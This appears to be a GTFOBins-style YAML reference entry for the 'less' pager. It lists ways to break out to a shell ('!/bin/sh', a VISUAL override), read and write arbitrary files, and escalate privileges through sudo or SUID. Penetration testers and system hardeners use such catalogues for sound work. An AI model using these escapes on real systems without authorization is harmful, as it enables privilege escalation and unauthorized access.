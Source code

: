 functions:
  shell:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
    - description: This is useful when `less` is used as a pager by another binary to read a different file.
      code: |
        less /etc/profile
        :e file_to_read
  file-write:
    - code: |
        echo DATA | less
        sfile_to_write
        q
    - description: This invokes the default editor to edit the file. The file must exist.
      code: |
        less file_to_write
        v
  sudo:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid:
    - code: ./less file_to_read
---

